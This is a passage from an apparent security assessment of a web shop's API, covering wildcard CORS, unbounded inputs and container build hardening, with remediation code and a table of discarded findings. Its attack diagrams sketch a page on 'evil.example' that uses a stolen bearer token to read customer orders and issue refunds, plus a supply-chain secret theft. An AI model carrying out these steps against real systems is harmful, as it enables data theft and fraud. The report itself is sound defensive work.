module.exports = { audit };
```

Harden the role endpoint — invariant + re-authentication + audit, all in one transaction:
```js
// api/src/routes/admin.js
const bcrypt = require('bcryptjs');
const { audit } = require('../services/audit');

router.patch('/users/:id/role', asyncHandler(async (req, res) => {
  const { role, current_password } = req.body || {};
  if (!['customer', 'admin', 'customer_service'].includes(role)) {
    return res.status(400).json({ error: 'Invalid role' });
  }

  // Step-up re-authentication: a stolen bearer token alone must not mint an admin.
  const actor = await db('users').where({ id: req.user.sub }).first();
  if (typeof current_password !== 'string' ||
      !(await bcrypt.compare(current_password, actor.password_hash))) {
    await audit(null, { event: 'user.role.change_denied', req,
      targetType: 'user', targetId: req.params.id, context: { reason: 'reauth_failed' } });
    return res.status(403).json({ error: 'Your current password is required to change roles' });
  }

  const result = await db.transaction(async (trx) => {
    const target = await trx('users').where({ id: req.params.id }).forUpdate().first();
    if (!target) return { notFound: true };
    if (target.role === role) return { user: target };           // idempotent no-op

    // Invariant: at least one admin must always exist.
    if (target.role === 'admin' && role !== 'admin') {
      const [{ count }] = await trx('users').where({ role: 'admin' }).count({ count: '*' });
      if (Number(count) <= 1) {
        return { lastAdmin: true };
      }
    }
    // Self-demotion guard: prevents accidental control-plane lockout.
    if (String(target.id) === String(req.user.sub) && role !== 'admin') {
      return { selfDemote: true };
    }

    await trx('users').where({ id: target.id }).update({ role });
    // Revoke the target's sessions so the old role cannot be used post-change (needs F-03).
    await trx('refresh_tokens').where({ user_id: target.id })
      .whereNull('revoked_at').update({ revoked_at: trx.fn.now() });

    await audit(trx, {
      event: 'user.role.changed', req, targetType: 'user', targetId: target.id,
      before: { role: target.role }, after: { role },
    });
    return { user: { ...target, role } };
  });

  if (result.notFound)  return res.status(404).json({ error: 'User not found' });
  if (result.lastAdmin) return res.status(409).json({ error: 'Cannot remove the last remaining admin' });
  if (result.selfDemote) return res.status(409).json({ error: 'Admins cannot demote their own account' });

  const { id, email, full_name } = result.user;
  res.json({ id, email, full_name, role: result.user.role });
}));
```

Structured request/security logging in `api/src/app.js` (replacing the bare `console.error` at lines 32-35):

```js
const pinoHttp = require('pino-http');
const crypto = require('crypto');

app.use(pinoHttp({
  genReqId: (req) => req.headers['x-request-id'] || crypto.randomUUID(),
  // Never log credentials, tokens, or card data.
  redact: {
    paths: ['req.headers.authorization', 'req.headers.cookie',
            'req.body.password', 'req.body.current_password', 'req.body.new_password',
            'req.body.card_number', 'req.body.cvv', 'req.body.card_token'],
    censor: '[REDACTED]',
  },
  customLogLevel: (req, res, err) => (err || res.statusCode >= 500 ? 'error'
    : res.statusCode >= 400 ? 'warn' : 'info'),
}));

// ... routes ...

app.use((err, req, res, next) => {
  req.log.error({ err, event: 'unhandled_error', req_id: req.id }, 'request failed');
  res.status(500).json({ error: 'Internal server error', request_id: req.id });
});
```

Then emit `audit()` calls at the security-relevant events that currently produce nothing: `auth.login.success`, `auth.login.failure`, `auth.login.locked` (see the F-05 handler, which already calls `req.log`), `auth.logout`, `auth.password.changed`, `refund.issued` (alongside the existing `issued_by` column), and `exchange.completed`. Ship `audit_log` and the pino stream to an append-only external sink (e.g. a log-shipping sidecar to CloudWatch/Loki) so an attacker with database write access cannot erase their own trail, and alert on `auth.login.failure` volume per account and on any `user.role.changed` event.

*Why this closes the gap:* an append-only `audit_log` with explicit before/after values and actor attribution turns privilege changes and authentication outcomes into non-repudiable evidence, so a forged-token escalation leaves a durable record that incident response can scope and that contradicts a false `issued_by`; the Postgres `RULE`/`REVOKE` pair makes deletion of that evidence impossible through the application's own credentials. The last-admin and self-demotion invariants, enforced under `forUpdate()` so two concurrent demotions cannot both pass the count check, guarantee the control plane cannot be destroyed by a single request, and step-up re-authentication means a stolen bearer token is insufficient to grant privileges — the attacker would also need the admin's password.

**OWASP mapping.** A09:2021 Security Logging and Monitoring Failures; A01:2021 Broken Access Control (missing privilege-model invariant). API Security Top 10: API8 Security Misconfiguration, API5 Broken Function Level Authorization. ASVS v5.0: V7.1 (log content requirements for security events), V7.2.1/V7.2.2 (log all authentication and authorization decisions), V7.3.1 (logs protected from unauthorized modification/deletion), V7.3.3 (no sensitive data in logs), V2.4 (re-authentication before sensitive operations).

---

### F-11a — Wildcard CORS on all API routes

**Severity: Low** (Impact 2, Likelihood 3, Complexity 4)

- **Impact — Inconvenience/exposure across users rather than direct compromise.** With `Access-Control-Allow-Origin: *` and no credentials reflection, a malicious page cannot ride a victim's cookie — but it can freely script the API from any origin with any token it obtains, and the browser-enforced origin check that would otherwise contain a leaked token is removed.
- **Likelihood — Likely.** Wildcard CORS is flagged by every automated scanner and is trivially confirmed with one `OPTIONS` request.
- **Complexity — Low.** A few lines of JavaScript on any attacker-controlled page.

**Evidence**

`api/src/app.js:16` — `cors()` with no options, which emits `Access-Control-Allow-Origin: *` for every route including `/api/admin/*` and `/api/cs/*`:
```js
app.use(cors());
```
`web/src/api/client.js:24` — the client sends `credentials: 'include'`, indicating an intent to use cookie-based auth that wildcard CORS actively breaks (browsers reject `*` with credentials), so the current configuration is simultaneously too permissive and incompatible with the F-03 remediation:
```js
    credentials: 'include',
```
`DESIGN.md:930` states the intended posture explicitly — one origin via the gateway, so CORS should not be needed at all: "Presenting `web` and `api` under one origin via `gateway` also avoids CORS".

**Description.** The API advertises itself as callable from any web origin. Today, because authentication is a bearer header rather than a cookie, this does not by itself enable classic CSRF — but it removes a meaningful containment layer and blocks the correct fix for F-03. Concretely: any third-party page (a typosquat, a compromised ad frame, a malicious browser extension's content script) can read the public catalog and review endpoints cross-origin for scraping, and — the moment it obtains a token by any means (the `localStorage` exfiltration in F-03, a shared-device copy, a leaked staff token from the cleartext channel in F-04) — it can drive the *entire* authenticated API, including `/api/cs/orders/:id/refunds`, directly from the victim's browser and read every response, because the wildcard grants read access to the response body that the same-origin policy would otherwise deny. It also means an attacker's phishing page can host a fully functional clone of the Widget Shop UI talking to the real API. Once F-03's `HttpOnly` cookie is implemented, leaving `cors()` in place would either break the login flow outright or, if "fixed" by reflecting the request origin with `credentials: true`, convert the wildcard into a genuine cross-origin credential-theft vector — so this must be corrected as part of that change.

```mermaid
sequenceDiagram
    actor V as Victim (CS agent)
    participant B as Victim browser
    participant EV as evil.example (attacker page)
    participant API
    V->>EV: Visits attacker page (phish / ad frame / typosquat)
    EV->>B: JS: fetch('https://shop/api/cs/orders', {headers:{Authorization:'Bearer '+stolen}})
    B->>API: OPTIONS /api/cs/orders (Origin: https://evil.example)
    API-->>B: Access-Control-Allow-Origin: *   <-- any origin permitted
    B->>API: GET /api/cs/orders (Authorization: Bearer <token stolen via F-03/F-04>)
    API-->>B: 200 [all customer emails + orders]
    B->>EV: Response body readable cross-origin (wildcard ACAO)
    Note over EV,API: EXPLOIT SUCCEEDS — full API driven and read from a<br/>foreign origin; same-origin policy provides no containment
    EV->>B: JS: fetch('/api/cs/orders/4102/refunds', {method:'POST', ...})
    B->>API: POST /api/cs/orders/4102/refunds
    API-->>B: 201 refund issued
```

**Root cause.** CORS was enabled with default (wildcard) options rather than an explicit origin allowlist, because the deployment lacks the single-origin gateway that would have made cross-origin access unnecessary in the first place.

**Remediation — same-origin delivery via the gateway, with a strict origin allowlist and credentials support as the only CORS configuration.**

With the F-04 gateway in place, the SPA and API share an origin and CORS is unnecessary — remove it entirely:
```js
// api/src/app.js — preferred: no CORS at all, single origin via the gateway.
// const cors = require('cors');   <-- delete
// app.use(cors());                <-- delete
```
If a distinct front-end origin is genuinely required (e.g. a separate mobile web host), configure an explicit allowlist that is compatible with the `HttpOnly` cookie from F-03:
```js
const cors = require('cors');

const ALLOWED_ORIGINS = (process.env.CORS_ALLOWED_ORIGINS || '')
  .split(',').map((s) => s.trim()).filter(Boolean);   // e.g. "https://shop.example"

app.use(cors({
  origin(origin, cb) {
    // Same-origin/non-browser requests send no Origin header.
    if (!origin) return cb(null, true);
    if (ALLOWED_ORIGINS.includes(origin)) return cb(null, true);
    return cb(new Error('Origin not allowed'), false);
  },
  credentials: true,                                  // required for the refresh cookie
  methods: ['GET', 'POST', 'PATCH', 'DELETE'],
  allowedHeaders: ['Content-Type', 'Authorization', 'X-Requested-With'],
  maxAge: 600,
}));
```
Never reflect `req.headers.origin` unconditionally, and never combine a reflected origin with `credentials: true`.

*Why this closes the gap:* serving the SPA and API from one gateway origin means the browser's same-origin policy — not a server header — becomes the boundary, so a foreign page cannot read API responses at all even if it holds a token. Where a second origin is unavoidable, an explicit static allowlist (rather than `*` or origin reflection) keeps `credentials: true` safe, which is precisely what the `HttpOnly` refresh cookie in F-03 requires in order to work.

**OWASP mapping.** A05:2021 Security Misconfiguration; A01:2021 Broken Access Control. API Security Top 10: API8 Security Misconfiguration. ASVS v5.0: V13.2.1 (CORS `Access-Control-Allow-Origin` restricted to trusted origins, no wildcard on authenticated resources), V3.4 (cookie-based session integrity with cross-origin controls).

---

### F-12 — Unbounded request/field sizes and echoed processor errors

**Severity: Low** (Impact 2, Likelihood 3, Complexity 5)

- **Impact — Inconvenience for all users.** Oversized payloads consume API memory and permanently bloat `text` columns; the echoed processor error and the absence of a body-size cap give an attacker cheap, low-grade denial of service and a small amount of internal reconnaissance.
- **Likelihood — Likely.** Trivially discovered; commonly hit by automated fuzzing even without intent.
- **Complexity — Low.** A single `curl` with a large `--data` payload.

**Evidence**

`api/src/app.js:17` — `express.json()` with no `limit` option; the default is 100 kB per request, but with no per-field caps and no rate limiting (F-04) that is 100 kB per request, unbounded in count:
```js
app.use(express.json());
```
`api/src/routes/reviews.js:64-66` — `body` is stored with no length check and no type check, so an arbitrarily large string (or a non-string) reaches a `text` column:
```js
  if (req.body && Object.prototype.hasOwnProperty.call(req.body, 'body')) {
    updates.body = req.body.body;
  }
```
`api/src/routes/reviews.js:45` has the same gap on creation (`body` inserted unvalidated). `api/src/routes/users.js:20-35` likewise inserts `line1`, `line2`, `city`, `state`, `postal_code`, `country` with only presence checks — no length or character-set validation against `string` (varchar(255)) columns. `api/src/routes/cs.js:82,85` insert `notes` unvalidated.
`api/src/routes/orders.js:73` — the processor's raw error text is relayed to the client:
```js
    return res.status(payErrorStatus(err)).json({ error: 'Payment failed', detail: err.data?.error });
```
`api/src/routes/cs.js:48` does the same for refunds. `fauxpay/src/server.js:39` — the token store is an unbounded in-memory `Map` that is never evicted, so the publicly reachable `/tokenize` (F-02) grows it without limit:
```js
  tokens.set(token, { last4: card_number.slice(-4), brand: detectBrand(card_number) });
```
Also `api/src/routes/cart.js:39-57` — `quantity` is validated as a positive integer but has **no upper bound**, so `quantity: 2147483647` is accepted into the cart (and then overflows the `integer` arithmetic in `serializeCart`'s subtotal at `cart.js:31`).

**Description.** Several small input-hygiene gaps that together give an unauthenticated or minimally-authenticated attacker cheap resource consumption and a little reconnaissance. With no per-field length caps, a customer can publish a review whose `body` is a multi-megabyte string (bounded only by the 100 kB request limit, repeated across many reviews), permanently inflating the `reviews` table and the public `GET /api/widgets/:id/reviews` response — which every catalog visitor then downloads, turning one attacker's writes into bandwidth and render cost for all users. The same applies to address fields and CS `notes`. The unbounded cart `quantity` lets a user store values that overflow the subtotal computation, producing nonsensical totals in the UI. The `detail: err.data?.error` relay leaks the payment processor's internal error strings to any client — useful for fingerprinting which gateway is in use and probing its validation behaviour — and, combined with F-02's publicly reachable processor, helps an attacker distinguish "unknown card_token" from other failure modes. Finally, FauxPay's never-evicted `tokens` Map means repeated tokenization drives the container toward OOM.

```mermaid
sequenceDiagram
    actor Atk as Attacker (free account)
    participant API
    participant DB
    participant FP as fauxpay
    actor C as All catalog visitors
    Atk->>API: POST /api/orders {card_token:"bogus"}
    API->>FP: POST /charge
    FP-->>API: 400 {error:"Unknown card_token"}
    API-->>Atk: 402 {error:"Payment failed", detail:"Unknown card_token"}
    Note over Atk: Processor internals fingerprinted (info leak)
    loop many reviews / addresses / notes, no rate limit (F-04)
        Atk->>API: PATCH /api/reviews/:id {body:"<~100kB string>"}
        API->>DB: UPDATE reviews SET body = <unbounded text>
        API-->>Atk: 200
    end
    C->>API: GET /api/widgets/1/reviews  (public, unauthenticated)
    API->>DB: SELECT reviews JOIN users
    API-->>C: 200 multi-MB response — slow page for every visitor
    Note over Atk,C: EXPLOIT SUCCEEDS — storage bloat amplified into<br/>bandwidth/render cost for all users
    Atk->>API: POST /api/cart/items {widget_id:1, quantity:2147483647}
    API->>DB: INSERT cart_items (no upper bound)
    API-->>Atk: 201 — subtotal arithmetic overflows
    loop unbounded (public via F-02)
        Atk->>FP: POST /fauxpay/tokenize {...}
        FP->>FP: tokens.set(...)  — Map never evicted -> OOM
    end
```

**Root cause.** Input validation checks presence and type in a few places but nowhere establishes upper bounds, and error handling relays upstream failure detail verbatim instead of mapping it to a client-safe message.

**Remediation — explicit size/range limits at the parser, per-field schema validation, client-safe error mapping, and TTL eviction on the processor's token store.**

Cap the parser and add a global per-field validator in `api/src/app.js`:
```js
app.use(express.json({ limit: '16kb' }));            // no endpoint needs more
app.use(express.urlencoded({ extended: false, limit: '16kb' }));
```

Validate with an explicit schema per route rather than ad-hoc checks. Using `zod` (add `"zod": "^3.23.8"` to `api/package.json`):
```js
// api/src/middleware/validate.js
const { ZodError } = require('zod');

function validate(schema, source = 'body') {
  return (req, res, next) => {
    try {
      req[source] = schema.parse(req[source]);       // parsed + coerced + bounded
      next();
    } catch (err) {
      if (err instanceof ZodError) {
        return res.status(400).json({
          error: 'Invalid request',
          fields: err.issues.map((i) => ({ path: i.path.join('.'), message: i.message })),
        });
      }
      next(err);
    }
  };
}
module.exports = { validate };
```
```js
// api/src/routes/reviews.js
const { z } = require('zod');
const { validate } = require('../middleware/validate');

const reviewCreate = z.object({
  rating: z.number().int().min(1).max(5),
  body: z.string().max(2000).trim().optional(),      // hard ceiling on stored text
});
const reviewPatch = reviewCreate.partial().refine((o) => Object.keys(o).length > 0,
  { message: 'At least one of rating or body is required' });

router.post('/widgets/:id/reviews', requireAuth, validate(reviewCreate), asyncHandler(/* ... */));
router.patch('/reviews/:id', requireAuth, validate(reviewPatch), asyncHandler(/* ... */));
```
```js
// api/src/routes/cart.js — bound the quantity
const cartItem = z.object({
  widget_id: z.coerce.number().int().positive(),
  quantity: z.number().int().min(1).max(100),        // upper bound closes the overflow
});
router.post('/items', validate(cartItem), asyncHandler(/* ... */));
```
```js
// api/src/routes/users.js — length-bound address fields to match varchar(255)
const address = z.object({
  line1: z.string().min(1).max(200),
  line2: z.string().max(200).optional(),
  city: z.string().min(1).max(100),
  state: z.string().max(100).optional(),
  postal_code: z.string().min(1).max(20),
  country: z.string().length(2).toUpperCase(),       // ISO 3166-1 alpha-2
  is_default_shipping: z.boolean().optional(),
  is_default_billing: z.boolean().optional(),
});
```
and `notes: z.string().max(2000).optional()` for the CS exchange routes.

Stop echoing upstream errors — log the detail, return a stable code (`api/src/routes/orders.js:73` and `api/src/routes/cs.js:48`):
```js
  } catch (err) {
    req.log.warn({ event: 'processor.charge_failed', order_id: order.id,
                   processor_status: err.status, processor_detail: err.data?.error },
                 'payment declined');
    await releaseStock(lineItems);                                   // from F-08
    await db('orders').where({ id: order.id }).update({ status: 'cancelled' });
    return res.status(payErrorStatus(err)).json({
      error: 'Payment failed',
      code: 'PAYMENT_DECLINED',                     // stable, client-safe; no upstream text
      request_id: req.id,
    });
  }
```

Bound FauxPay's store with TTL eviction (`fauxpay/src/server.js`):
```js
const TOKEN_TTL_MS = 10 * 60 * 1000;
const MAX_TOKENS = 10000;

setInterval(() => {
  const now = Date.now();
  for (const [k, v] of tokens) if (v.expires_at <= now) tokens.delete(k);
}, 60000).unref();

app.post('/tokenize', (req, res) => {
  if (tokens.size >= MAX_TOKENS) return res.status(503).json({ error: 'Temporarily unavailable' });
  // ... existing validation ...
  tokens.set(token, { last4: card_number.slice(-4), brand: detectBrand(card_number),
                      consumed: false, expires_at: Date.now() + TOKEN_TTL_MS });
  res.status(201).json({ card_token: token, expires_in: TOKEN_TTL_MS / 1000 });
});
```

*Why this closes the gap:* schema-based validation with explicit `max()` bounds replaces "is it present?" with "is it within the contract?", so oversized text can never reach a `text` column and the public reviews response stays bounded regardless of attacker writes; the `quantity` ceiling removes the arithmetic-overflow path. Mapping processor failures to a stable `code` plus a `request_id` preserves debuggability (the detail lives in the server log, correlated by id) while denying the client any upstream fingerprint. TTL eviction with a hard `MAX_TOKENS` cap turns the processor's unbounded store into a bounded one, so tokenization volume can no longer translate into memory exhaustion.

**OWASP mapping.** A04:2021 Insecure Design; A05:2021 Security Misconfiguration; A03:2021 Injection (missing input validation as the shared root). API Security Top 10: API4 Unrestricted Resource Consumption, API8 Security Misconfiguration. ASVS v5.0: V5.1.3/V5.1.4 (input validation against a positive schema with length bounds), V7.4.1 (generic error messages; no internal detail returned to the client), V11.1.2 (business limits).

---

### F-13 — Container and build hardening gaps

**Severity: Low** (Impact 3, Likelihood 2, Complexity 2)

- **Impact — Major if realized.** A dependency-substitution or tampered-lockfile build executes attacker code inside the API container with database credentials and the processor API key in its environment. The nginx master process running as root widens any nginx vulnerability into host-adjacent container root.
- **Likelihood — Possible.** Requires a compromised or typosquatted package version, or an attacker already able to influence the build — real but not routine.
- **Complexity — Medium to High.** Supply-chain positioning or build-system access, plus some technical ability.

**Evidence**

`api/Dockerfile:3-4` — `npm install` rather than `npm ci`, so the committed `package-lock.json` is treated as advisory and the resolved tree can drift from what was reviewed; `package-lock.json*` is also copied with a glob that silently succeeds if the lockfile is absent:
```dockerfile
COPY package.json package-lock.json* ./
RUN npm install --omit=dev
```
`fauxpay/Dockerfile:3-4` is identical. `web/Dockerfile:3-4` has the same issue in the build stage:
```dockerfile
COPY package.json package-lock.json* ./
RUN npm install
```
`web/Dockerfile:8-11` — the runtime stage adds no non-root user, so nginx runs its master process as root, contradicting `DESIGN.md:946` ("Containers run as a **non-root user**") and `DESIGN.md:998`:
```dockerfile
FROM nginx:1.27-alpine AS runtime
COPY nginx.conf /etc/nginx/conf.d/default.conf
COPY --from=build /app/dist /usr/share/nginx/html
EXPOSE 80
```
(`api/Dockerfile:9,13` and `fauxpay/Dockerfile:9,13` do correctly `adduser -S app` and `USER app`.)
`docker-compose.yml` (whole file) — no `read_only`, no `cap_drop`, no `security_opt: [no-new-privileges:true]`, no `mem_limit`/`pids_limit`, and no `restart` policy on any service; base images are floating tags (`postgres:16-alpine`, `node:20-alpine`, `nginx:1.27-alpine`) rather than digest-pinned.
`web/.dockerignore` and `api/.dockerignore:1-4` do correctly exclude `node_modules` and `.env`.

**Description.** Three compounding build/runtime weaknesses. First, `npm install` re-resolves the dependency graph at build time instead of installing the exact, reviewed tree from `package-lock.json`; combined with the permissive `package-lock.json*` glob (which does not fail when the lockfile is missing) and floating base-image tags, two builds of the same commit can produce different software. A malicious version published to a transitive dependency — or a typosquat introduced into `package.json` — executes its install scripts inside the build and ships into the runtime image, where `api`'s environment holds `JWT_SECRET`, `DB_PASSWORD`, and `FAUXPAY_API_KEY` (`docker-compose.yml:12-15`), and where the container has a route to both `db` and `fauxpay`. Second, the `web` container's nginx runs as root: any future nginx CVE, or a path-traversal in the static handler, yields root inside the container that terminates all public traffic and (per F-07) handles cardholder data. Third, no container has resource limits or dropped capabilities, so the resource-exhaustion paths in F-08, F-02, and F-12 are bounded only by host capacity, and a compromised process retains the default capability set.

```mermaid
sequenceDiagram
    actor Atk as Attacker (supply chain)
    participant REG as npm registry
    participant BLD as docker build (api)
    participant RT as api runtime container
    participant DB
    participant FP as fauxpay
    Atk->>REG: Publish malicious version of a transitive dependency
    BLD->>BLD: COPY package.json package-lock.json*   (glob tolerates a missing lockfile)
    BLD->>REG: RUN npm install --omit=dev  (re-resolves; lockfile not enforced)
    REG-->>BLD: malicious package + postinstall script
    BLD->>BLD: install script runs in the build stage
    BLD->>RT: image ships with the malicious module
    RT->>RT: process.env exposes JWT_SECRET, DB_PASSWORD, FAUXPAY_API_KEY
    Note over RT: EXPOSURE — no cap_drop, no read_only, no no-new-privileges
    RT->>DB: direct queries with app credentials (full PII, payments)
    RT->>FP: POST /charge,/refund with the API key
    RT->>Atk: exfiltrate secrets + data
    Note over Atk,RT: EXPLOIT SUCCEEDS — code execution inside the trusted app tier;<br/>separately, web/nginx runs as root (no USER directive)
```

**Root cause.** The build does not enforce the reviewed dependency set or pinned base images, and the runtime containers are not constrained to least privilege — the deployment omits the non-root, reproducible-build requirements the design states.

**Remediation — reproducible `npm ci` builds from digest-pinned bases, a non-root nginx runtime, and least-privilege container runtime constraints.**

`api/Dockerfile` (and identically `fauxpay/Dockerfile`):
```dockerfile
# Digest-pin the base so a retagged upstream cannot change the build.
FROM node:20.17.0-alpine@sha256:<digest> AS deps
WORKDIR /app
# Fail the build if the lockfile is missing (no glob) and install exactly it.
COPY package.json package-lock.json ./
RUN npm ci --omit=dev --ignore-scripts && npm cache clean --force

FROM node:20.17.0-alpine@sha256:<digest> AS runtime
WORKDIR /app
ENV NODE_ENV=production
RUN addgroup -S app && adduser -S app -G app
COPY --from=deps --chown=root:root /app/node_modules ./node_modules
COPY --chown=root:root package.json ./
COPY --chown=root:root src ./src
USER app
EXPOSE 3000
HEALTHCHECK --interval=30s --timeout=3s --retries=3 \
  CMD node -e "fetch('http://127.0.0.1:3000/health').then(r=>process.exit(r.ok?0:1)).catch(()=>process.exit(1))"
CMD ["node", "src/server.js"]
```
(`--ignore-scripts` blocks install-time code execution; files owned by root and run as `app` mean the process cannot modify its own code.)

`web/Dockerfile` — use the unprivileged nginx variant:
```dockerfile
FROM node:20.17.0-alpine@sha256:<digest> AS build
WORKDIR /app
COPY package.json package-lock.json ./
RUN npm ci --ignore-scripts
COPY . .
RUN npm run build

# nginxinc/nginx-unprivileged listens on 8080 and runs as uid 101, not root.
FROM nginxinc/nginx-unprivileged:1.27-alpine@sha256:<digest> AS runtime
COPY nginx.conf /etc/nginx/conf.d/default.conf
COPY --from=build /app/dist /usr/share/nginx/html
USER 101
EXPOSE 8080
```
(update the gateway's `proxy_pass http://web:8080;` accordingly).

`docker-compose.yml` — least-privilege runtime for every service:
```yaml
x-hardened: &hardened
  restart: unless-stopped
  read_only: true
  cap_drop: ["ALL"]
  security_opt: ["no-new-privileges:true"]
  tmpfs: ["/tmp:rw,noexec,nosuid,size=16m"]
  pids_limit: 200
  mem_limit: 512m

services:
  gateway:
    <<: *hardened
    build: ./gateway
    ports: ["443:443", "80:80"]
    networks: [frontend]
  web:
    <<: *hardened
    build: ./web
    expose: ["8080"]
    tmpfs: ["/tmp", "/var/cache/nginx", "/var/run"]
    networks: [frontend]
  api:
    <<: *hardened
    build: ./api
    env_file: .env
    environment:
      DB_HOST: db
      FAUXPAY_BASE_URL: http://fauxpay:4000
    expose: ["3000"]
    networks: [frontend, backend]
  fauxpay:
    <<: *hardened
    build: ./fauxpay
    expose: ["4000"]
    networks: [backend]
  db:
    image: postgres:16.4-alpine@sha256:<digest>
    read_only: false                      # Postgres needs a writable data dir
    cap_drop: ["ALL"]
    cap_add: ["CHOWN", "SETUID", "SETGID", "DAC_OVERRIDE", "FOWNER"]
    security_opt: ["no-new-privileges:true"]
    secrets: [db_password]
    environment:
      POSTGRES_DB: ${DB_NAME:?DB_NAME is required}
      POSTGRES_USER: ${DB_USER:?DB_USER is required}
      POSTGRES_PASSWORD_FILE: /run/secrets/db_password
    volumes: ["db_data:/var/lib/postgresql/data"]
    networks: [backend]

secrets:
  db_password:
    file: ./secrets/db_password
networks:
  frontend:
  backend:
    internal: true
volumes:
  db_data:
```
Note the `${DB_NAME:?...}` form replaces the `:-widgetshop` fallbacks flagged in F-01, so a missing `.env` fails the deployment rather than silently using known credentials. Add `npm audit --omit=dev --audit-level=high` and a container scan (Trivy/Grype) as blocking CI steps, and enable Dependabot so dependency updates are reviewed rather than resolved at build time.

*Why this closes the gap:* `npm ci` from a mandatory lockfile with `--ignore-scripts`, against digest-pinned bases, makes the build reproducible and removes install-time code execution — so a newly published malicious version cannot enter an existing build without a reviewed lockfile change. The unprivileged nginx image plus `cap_drop: ALL`, `read_only`, and `no-new-privileges` mean a successful exploit of any container lands as an unprivileged user in a filesystem it cannot modify and cannot escalate out of, and `mem_limit`/`pids_limit` bound the resource-exhaustion paths in F-02, F-08, and F-12 to a single container rather than the whole host.

**OWASP mapping.** A08:2021 Software and Data Integrity Failures; A06:2021 Vulnerable and Outdated Components; A05:2021 Security Misconfiguration. API Security Top 10: API8 Security Misconfiguration. ASVS v5.0: V10.3 (dependency integrity, verified and pinned third-party components), V14.1.3 (build pipeline reproducibility), V14.2 (dependency management and known-vulnerability scanning), V14.3 (least-privilege runtime / non-root containers).

---

## 7. Considered findings (not reported)

| Title | Why it was discarded |
|---|---|
| SQL injection via Knex | Every query in `api/src` uses the Knex query builder with bound parameters; there is no `knex.raw`, `db.raw`, `whereRaw`, or string-concatenated SQL anywhere (verified by grep across `api/src`, `web/src`, `fauxpay/src`). The search filter `andWhereILike('name', '%${q}%')` (`catalog.js:12`) and `andWhereILike('users.email', '%${email}%')` (`cs.js:14`) interpolate into the *pattern value*, which Knex binds — at worst an attacker supplies `%`/`_` wildcards and broadens their own result set, which for the public catalog and the role-restricted CS search discloses nothing they are not already entitled to see. `category_id` (`catalog.js:11`) is bound as an equality value; a non-numeric value produces a bound-parameter cast error caught by the generic 500 handler, leaking nothing. |
| Stored/reflected XSS in the SPA | React escapes all interpolated text by default and there is no `dangerouslySetInnerHTML`, `innerHTML`, `eval`, or `new Function` anywhere in `web/src` (verified by grep). The attacker-controllable strings that reach the DOM — `review.body` and `review.full_name` (`WidgetDetail.jsx:187,189`), `widget.name`/`description` (`WidgetDetail.jsx:107-108`), `customer_email` (`CustomerService.jsx:75`) — are all rendered as JSX text children and therefore escaped. `widgets.image_url` is stored but never rendered into an attribute. No `href`/`src` is built from user input, so there is no `javascript:` URI sink either. The missing CSP is still reported as part of F-04 because it is a required design control and a defense-in-depth layer for the `localStorage` token, but no exploitable injection sink exists today. |
| SSRF via the payment client | `api/src/services/fauxpayClient.js:1,5` builds the URL from the server-side `FAUXPAY_BASE_URL` env var and a hardcoded path literal (`/charge`, `/refund`); no part of the URL derives from client input, so there is no attacker-controlled destination. |
| CSRF against the JSON API | Authentication is a bearer `Authorization` header read from `localStorage` (`client.js:19`), not an ambiently-sent cookie, so a cross-site form or image cannot authenticate a request — the browser will not attach the header. (The `/fauxpay/*` proxy exposure is reported separately as F-02, and F-03's remediation introduces the `SameSite=Strict` + `X-Requested-With` controls that cookie auth will require.) |
| Client-price / client-total manipulation at checkout | `POST /api/orders` accepts only `shipping_address_id` and `card_token` (`orders.js:12`); no price, quantity, or total is read from the request. The server re-prices every line from `widgets.price_cents` and recomputes `totalCents` (`orders.js:41-45`), and charges the processor that server-computed amount (`orders.js:70`). This is the design's 5 recommendation correctly implemented. |
| Cart and order IDOR | `getOrCreateCart(req.user.sub)` resolves the caller's own cart, and every item mutation is scoped by `{id, cart_id}` (`cart.js:65,72`), so a guessed `itemId` from another user's cart matches nothing. `GET /api/orders/:id` filters on `{id, user_id: req.user.sub}` (`orders.js:106`) and `GET /api/orders` on `user_id` (`orders.js:101`); addresses are scoped to `user_id` on both read and write (`users.js:16,26`). `POST /api/orders` verifies the supplied `shipping_address_id` belongs to the caller (`orders.js:19`), so an order cannot be shipped to a stranger's address. |
| Review ownership bypass / broken function level authorization on reviews | `PATCH`/`DELETE /api/reviews/:id` re-read the row and compare `review.user_id !== req.user.sub` server-side (`reviews.js:54,76`) rather than trusting the SPA's conditional rendering (`WidgetDetail.jsx:191-193`), so a lower-privileged caller invoking the route directly is rejected. Admin moderation deletion sits behind `requireRole('admin')` at the router level (`admin.js:8`). The client-side `RequireRole` gate (`App.jsx:15-20`) is cosmetic but is correctly backed by server-side checks on every `/api/admin/*` and `/api/cs/*` route. |
| Review mass assignment | The `PATCH` handler copies only `rating` and `body` via explicit `hasOwnProperty` checks (`reviews.js:57-66`); `user_id`, `widget_id`, and `order_item_id` cannot be overwritten. `PATCH /api/admin/widgets/:id` uses an explicit `allowed` allowlist (`admin.js:34`), and `POST /api/auth/register` hardcodes `role: 'customer'` (`auth.js:27`) so self-registration cannot mint staff. |
| Verified-purchase bypass on reviews | Review creation requires a joined `order_items`/`orders` row with `orders.user_id = caller` and `orders.status = 'paid'` (`reviews.js:34-39`), enforced at write time, and one-review-per-widget is enforced both in application code (`reviews.js:41-42`) and by a `unique(['user_id','widget_id'])` index (`20260101000009:11`) — so the uniqueness invariant survives a race that defeats the application check. |
| Over-refund via concurrent refund requests | The API's cap check (`cs.js:38-42`) is a read-then-write TOCTOU, but the processor performs check-and-increment atomically within a single synchronous handler (`fauxpay/src/server.js:69-73`, no `await` between the comparison and the mutation) on a single-threaded event loop, so the second racing refund receives a 400 and the API returns 502 without inserting a `refunds` row. No money moves twice. Worth noting to the team as fragile — it depends on the processor's behaviour rather than our own transaction — which is why the F-09 remediation adds idempotency keys to both settlement calls. |
| JWT algorithm confusion / `alg: none` | `jsonwebtoken` v9 (`api/package.json:18`) rejects `alg: none` and will not verify an asymmetric token against an HMAC secret, so the classic confusion attacks fail. The missing `algorithms` option is still corrected in the F-01 remediation as hardening, but it is not independently exploitable. |
| Login timing side channel for user enumeration | `bcrypt.compare` dominates the response time on the valid-user path, and a non-existent user short-circuits at `!user` (`auth.js:44`), which is a measurable difference — but it is strictly noisier and slower than the direct 409 oracle already reported in F-06, and remediating F-06 includes the constant-work comparison that closes it. Not reported separately to avoid double-counting the same root cause. |
| `GET /health` unauthenticated | `api/src/app.js:20` returns a static `{status:'ok'}` with no version, dependency, or environment detail, and is not reachable from the internet (`api` is `expose`-only). No information of value. |
